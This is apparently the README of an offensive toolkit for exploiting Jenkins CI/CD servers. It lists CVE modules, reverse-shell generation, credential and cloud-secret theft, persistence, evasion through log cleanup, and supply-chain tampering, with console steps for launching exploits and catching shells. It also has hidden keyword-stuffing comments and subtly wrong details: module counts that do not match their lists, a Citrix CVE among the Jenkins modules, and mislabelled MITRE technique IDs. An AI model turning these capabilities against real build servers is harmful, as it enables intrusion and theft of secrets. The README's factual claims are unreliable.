



<!--
JenkinsBreaker Jenkins exploitation tool, Jenkins CVE exploit automation,
CVE-2019-1003029 Groovy RCE, CVE-2024-23897 CLI arbitrary file read,
Jenkins credential dumper, Jenkins reverse shell generator,
post-exploitation automation Jenkins, JWT brute force Jenkins,
AWS secret CI/CD extraction, offensive CI security,
HackTheBox Jenkins challenge exploitation, red team devops breach,
CI pipeline compromise tooling, Jenkins CLI exploit,
misconfiguration exploit framework Jenkins, SCADA build server weaknesses,
ridpath cybersecurity GitHub, CTF Jenkins auto pwn architecture
-->

# JenkinsBreaker  
Advanced CI/CD Exploitation Toolkit for Research, CTF, and Red Team Simulation


> Designed for training, authorized assessment, and adversary simulation in controlled environments.
---

## Features  

JenkinsBreaker is an offensive Python framework focused on exploiting **Jenkins servers** as an entry point for CI/CD abuse, credential theft, and lateral movement across DevOps infrastructure.

Key goals:

• Automate common **Jenkins RCE chains**  
• Provide reliable **post-exploitation tooling**  
• Support **CTF speed running workflows**  
• Extract credentials + secrets from CI environments  
• Enable research into **CI/CD security risks**

- **Automated Enumeration & Exploitation** (`--auto` mode with version fingerprinting)
- **Exploit Modules** (27 total: 25 CVE modules + 2 feature modules):
  - **Critical RCE** (11 CVE modules):
    - CVE-2016-0792 – XStream Deserialization RCE
    - CVE-2017-1000353 – CLI Java Deserialization RCE
    - CVE-2018-1000861 – Jenkins Core Stapler RCE
    - CVE-2019-1003029 – Script Security Groovy RCE
    - CVE-2019-1003040 – Script Security Constructor Bypass
    - CVE-2022-43401 – Pipeline Groovy Sandbox Bypass
    - CVE-2023-3519 – Citrix NetScaler RCE
    - CVE-2024-23897 – CLI Arbitrary File Read
    - CVE-2024-34144 – Script Security Sandbox Bypass
    - CVE-2024-43044 – **Agent Arbitrary File Read to RCE (Enhanced with Cookie Forgery)**
    - CVE-2025-31722 – Templating Engine Plugin RCE
  - **High Severity** (11 modules):
    - CVE-2018-1000600 – GitHub Plugin Arbitrary File Read
    - CVE-2019-1003000 – Script Security AST Bypass
    - CVE-2019-1003001 – Pipeline Groovy Plugin Sandbox Bypass
    - CVE-2020-2100 – Git Plugin Remote Code Execution
    - CVE-2021-21602 – Arbitrary File Read via Workspace Browser
    - CVE-2021-21686 – Agent-to-Controller Path Traversal
    - CVE-2022-30945 – Pipeline Groovy OS Command Injection
    - CVE-2022-34177 – Pipeline Input Step Path Traversal
    - CVE-2023-24422 – Script Security Plugin Sandbox Bypass
    - CVE-2023-27903 – Credential Exposure via Webhook
  - **Medium Severity** (3 modules):
    - CVE-2018-1000402 – AWS CodeDeploy Environment Variable Exposure
    - CVE-2019-10358 – Maven Plugin Information Disclosure
    - CVE-2020-2249 – TFS Plugin Credential Exposure
    - CVE-2024-47803 – Multi-Line Secret Exposure
  - **Feature Modules** (2 advanced exploitation modules):
    - FEATURE-SCRIPT-CONSOLE – Authenticated RCE with blind execution detection (DNS, HTTP, sleep-based)
    - FEATURE-JOB-CONFIG – Job configuration injection with automatic rollback for stealth operations
- **Advanced Infrastructure Components**:
  - **Cookie Forgery Engine** – Forge Jenkins remember-me cookies via master.key extraction
  - **File Reader Abstraction** – Unified file reading across multiple CVE exploitation techniques
  - **Agent-to-Master RCE Chain** – Complete exploitation flow: file read → secret extraction → cookie forgery → admin access
- **Reverse Shell Payload Generation** (Bash, Python, Groovy, PowerShell, Metasploit Compatible)
- **Secrets Extraction & Post-Exploitation**:
  - AWS credentials (`.aws/credentials`, environment variables, job configs)
  - SSH keys (`.ssh/id_rsa`, Jenkins credentials store)
  - API tokens (Docker, NPM, Maven, GitHub, Slack, Datadog, SendGrid, Twilio)
  - Database credentials (PostgreSQL, MySQL, MongoDB, Redis)
  - Cloud provider credentials (AWS, GCP, Azure, Kubernetes)
- **CSRF Crumb Handling & Automation**
- **JWT Token Brute-Forcing and Analysis**
- **Post-Exploitation Recon Automation** (Auto Upload & Execute linPEAS, pspy)
- **Report Generation**: JSON, Markdown, PDF (via WeasyPrint)
- **Persistence Techniques** (Cron Jobs, Jenkins Pipelines)
- **Modular Exploit Loading** (`exploits/` Directory)
- **Integrated Jenkins Lab** for CVE testing and validation
- **Modules (New)**:
  - Textual TUI – Interactive terminal interface with real-time exploitation
  - Web UI – Browser-based dashboard with FastAPI + WebSocket support
  - JenkinsFuzzer – Pipeline misconfiguration discovery (8 fuzzing modules)
  - JWT Breaker – JWT cryptanalysis with algorithm confusion
  - Plugin Fingerprint Engine – CVE correlation with 40+ vulnerability mappings
  - Persistence Manager – 7 post-exploitation persistence mechanisms  

---

## Visual Overview

### Example Usage

#### Command-Line Interface

```bash
python .\launch_console.py
help
```




### Interactive Interfaces

#### Terminal UI (TUI)

Interactive terminal-based interface for real-time exploitation:
```bash
python .\launch_tui.py
```



#### Web Dashboard

```bash
python .\launch_webui.py
```

Browser-based control panel with WebSocket support:




<!--
MITRE ATT&CK Jenkins exploitation mapping, CI/CD pipeline breach techniques,
initial access via CI servers, Jenkins credential exfiltration MITRE mapping,
execution via Groovy RCE, privilege escalation through pipeline abuse,
defense evasion DevOps, lateral movement from Jenkins to cloud,
command and control CI-based beaconing,
ridpath JenkinsBreaker adversary simulation mapping
-->
---
## Installation  

Installation
Initial Setup
Method 1: Modern (Recommended) - Using pyproject.toml

```bash

Clone the repository
git clone https://github.com/ridpath/JenkinsBreaker.git
cd JenkinsBreaker

Create virtual environment
python -m venv .venv
source .venv/bin/activate  # On Windows: .venv\Scripts\activate

Install with development dependencies
pip install -e ".[dev]"

Install pre-commit hooks
pip install pre-commit
pre-commit install
```

Method 2: Alternative - Using requirements.txt

```bash

Clone the repository
git clone https://github.com/ridpath/JenkinsBreaker.git
cd JenkinsBreaker

Create virtual environment
python -m venv .venv
source .venv/bin/activate  # On Windows: .venv\Scripts\activate

Install core dependencies only
pip install -r requirements.txt

Manually install dev tools (if needed)
pip install pytest pytest-cov pytest-asyncio mypy ruff

Install pre-commit hooks
pip install pre-commit
pre-commit install
```

Jenkins Vulnerable Lab Setup
The jenkins-lab environment provides a controlled testing target with planted credentials and vulnerabilities:

```bash
cd jenkins-lab
docker-compose up -d

Verify Jenkins is accessible
curl -u admin:admin http://localhost:8080
```

Credentials: admin/admin
URL: http://localhost:8080

See `jenkins-lab/README.md` for detailed lab documentation.

Installation Method Differences:

Method 1: Installs package in editable mode (`-e`) with all dev dependencies from pyproject.toml
Method 2: Only installs runtime dependencies; requires manual dev tool installation


## Quick Start

### Core Exploitation

```bash
# Console
python ./launch_console.py
jb> set target http://localhost:8080
jb> set username admin
jb> set password admin
jb> set lhost 192.168.1.100
jb> set lport 4444
jb> set handler auto        # Or omit - auto is default
jb> listener start          # Start Console's listener
jb> connect
jb> use FEATURE-SCRIPT-CONSOLE (or whatever exploit)
jb> run
# Console tracks session automatically
jb> sessions                # Show tracked sessions
jb> interact <id>           # Interactive shell
```


### 1. Textual TUI (`tui.py`)

Interactive terminal user interface with real-time exploitation dashboard.

**Features:**
- Live connection testing and version fingerprinting
- Plugin enumeration with vulnerability correlation
- CVE exploit table with risk levels and authentication requirements
- Real-time color-coded logging (info/success/error/warning)
- Keyboard shortcuts: `q`=quit, `e`=enumerate, `x`=exploit, `c`=connect, `r`=reset

**Usage:**
```bash
cd JenkinsBreaker
python .\launch_tui.py  

Set Jenkins server host and Listener port
```

### 2. Web UI (`web_ui.py`)

Browser-based exploitation dashboard with FastAPI backend and WebSocket support.

**Features:**
- RESTful API for automation (`/api/connect`, `/api/enumerate`, `/api/exploit`)
- WebSocket real-time log streaming
- Embedded single-page application (no external dependencies)
- Real-time statistics tracking (exploits run, successful, failed)

**Usage:**
```bash
cd JenkinsBreaker
python .\launch_webui.py
# Access: http://localhost:8000
```
## MITRE ATT&CK Mapping

| Phase | Technique | Mapping | Applied In JenkinsBreaker |
|------|-----------|---------|--------------------------|
| Initial Access | Exploit Public-Facing Application | T1190 | Groovy RCE / Arbitrary File Read |
| Execution | Command Execution via Script Engine | T1059.006 | Groovy execution via CLI, Script Console |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | Job config injection, shell build steps |
| Privilege Escalation | Abuse Elevated Build Permissions | T1068 | Pipeline takeover / credential harvesting |
| Privilege Escalation | Valid Accounts: Local Accounts | T1078.003 | Cookie forgery for admin authentication |
| Credential Access | Unsecured Credential Stores | T1552.001 | Secrets extraction from config & plugins |
| Credential Access | Credentials from Password Stores | T1552.004 | master.key, hudson.util.Secret extraction |
| Credential Access | Web Session Cookie | T1550.004 | Remember-me cookie forgery (CVE-2024-43044) |
| Discovery | Remote System Enumeration | T1087 / T1082 | Plugin, version & workspace scanning |
| Lateral Movement | Use Alternate Authentication Mechanisms | T1550 | Token + API reuse for cloud access |
| Exfiltration | Exfiltration Over Web Service | T1567.002 | Reverse shell, beaconing |
| Exfiltration | Exfiltration Over Alternative Protocol | T1071.001 | DNS exfiltration (feature_script_console) |
| Exfiltration | Exfiltration Over C2 Channel | T1071.004 | HTTP callback detection |
| Persistence | Scheduled Task/Job | T1053.003 | Malicious cron + pipeline persistence |
| Persistence | Create or Modify System Process | T1543.003 | Job config injection with persistence |
| Collection | Cloud Credential Dumping | T1552.005 | AWS key harvesting from builds |
| Defense Evasion | Indicator Removal / Obfuscation | T1070 | Plugin-based masking / cleanup |
| Defense Evasion | Indicator Removal on Host: File Deletion | T1070.004 | Build history cleanup (feature_job_config) |

> Helps blue teams align detection to CI/CD risks.

---
<!--
CI/CD attack chain, Jenkins exploitation lifecycle,
supply chain breach via build servers, software factory compromise,
reverse shell from build agents, pivot from CI to cloud,
DevOps pipeline security research diagram,
adversary-in-the-pipeline conceptual model
-->

## CI/CD Attack Kill Chain (Jenkins Focused)

Below is a streamlined adversarial flow commonly observed during Jenkins exploitation:

1. **Target Jenkins Web / CLI**
   - Identify exposed Jenkins UI or CLI attack surfaces
   - Look for weak auth, anonymous access, plugin misconfigurations

2. **Exploit Vulnerability (RCE / Arbitrary File Read)**
   - Execute Jenkins CVEs or plugin-based execution chains
   - Achieve remote code execution or sensitive file retrieval

3. **Build Server Compromise**
   - Harvest agent credentials, stored API tokens, AWS keys
   - Extract artifacts, SSH `id_rsa`, Docker registry creds

4. **Post-Exploitation Automation**
   - Upload recon tooling (e.g., linPEAS, pspy)
   - Enumerate pipelines, artifacts, nodes, user roles

5. **CI → Cloud Pivoting**
   - Abuse pipeline permissions to assume cloud roles (OIDC/AWS STS)
   - Modify IaC to establish stealthy persistence

6. **Lateral Movement Into Production**
   - Jenkins-as-a-jump-host into protected environments
   - Establish covert C2 using HTTPS or WebSockets

7. **(Optional) Supply-Chain Tampering**
   - Inject malicious payloads into build artifacts/containers
   - Poison downstream deployments + production fleets

> CI-driven breach escalation path → from Jenkins → cloud → production → end-users.


**MITRE ATT&CK Mapping:**
- **T1190**: Exploit Public-Facing Application (Initial agent compromise)
- **T1552.001**: Unsecured Credentials (Secret file extraction)
- **T1552.004**: Credentials from Password Stores (master.key decryption)
- **T1550.004**: Web Session Cookie (Cookie forgery)
- **T1078.003**: Valid Accounts - Local (Admin authentication)
- **T1059.006**: Command and Scripting Interpreter - Groovy (Script Console RCE)

This chain demonstrates the critical risk of Jenkins agents: **any agent compromise can lead to full controller takeover** regardless of RBAC or network segmentation.

<!--
jenkins c2 pivot, ci cd lateral movement, jenkins supply chain compromise,
devops pipeline exploitation, cloud credential theft, red team ci frameworks,
pipeline privilege escalation, artifact poisoning, c2 via build systems,
jenkins security researcher tools, attack surface mapping jenkins,
ridpath github jenkinsbreaker attacker workflow
-->


<!--
Jenkins CI/CD exploitation map, DevOps privilege escalation flow,
build server exploitation, AWS credential theft via CI/CD,
reverse shell via Jenkins pipelines, cloud lateral movement from CI,
CI-driven software supply chain compromise, attack lifecycle mapping,
ridpath jenkinsbreaker security automation
-->


### Planted Secrets

| Type | Location | Extractable Via |
|------|----------|----------------|
| AWS Credentials | `~/.aws/credentials` | CLI CVE-2024-23897, Groovy |
| SSH Private Key | `~/.ssh/id_rsa` | CLI CVE-2024-23897, Groovy |
| NPM Token | `~/.npmrc` | CLI CVE-2024-23897, Groovy |
| Docker Auth | `~/.docker/config.json` | CLI CVE-2024-23897, Groovy |
| Maven Settings | `~/.m2/settings.xml` | CLI CVE-2024-23897, Groovy |
| Database Creds | `~/.config/database.env` | CLI CVE-2024-23897, Groovy |
| API Keys | `~/.config/api_keys.env` (17 keys) | CLI CVE-2024-23897, Groovy |
| Cloud Creds | `~/.config/cloud.env` | CLI CVE-2024-23897, Groovy |
| Jenkins Creds | `credentials.xml` (16 secrets) | API, Groovy, offsec-jenkins decryptor |


<!--
JenkinsBreaker exploit toolkit SEO footer, Jenkins RCE automation,
CI pipeline security research, credential extraction CI/CD,
DevSecOps red team training lab tool, HackTheBox Jenkins writeups,
post exploitation Jenkins techniques, reverse shell automation CI servers,
CVE exploit chaining Jenkins, CI/CD infrastructure breach demonstration,
offensive DevOps testing, ridpath JenkinsBreaker GitHub project, github.com/ridpath
-->

## Legal Disclaimer

This tool is intended **solely for educational use, security research, and authorized penetration testing**.  

Unauthorized access to computer systems is **illegal** in many jurisdictions and may result in:
- Criminal prosecution  
- Civil liability  
- Employment/contract termination  

By using JenkinsBreaker, you agree that:
- **You are solely responsible** for compliance with all applicable laws and regulations  
- The authors **do not endorse or condone** malicious usage  
- The developers **assume zero liability** for damage or misuse  

Use **only** in **controlled lab environments**, CTFs, or legally authorized engagements.

<!--
jenkins exploit framework legality,
unauthorized jenkins hacking disclaimer,
ethical hacking jenkins tool,
ci cd penetration testing authorization required,
cybersecurity legal notice for exploitation tools,
jenkinsbreaker responsible disclosure,
pentesting agreement requirement,
supply chain security testing legal compliance,
ridpath github jenkins security research tool
-->
## LICENSE
This project is licensed under the MIT License. See the LICENSE file for details.

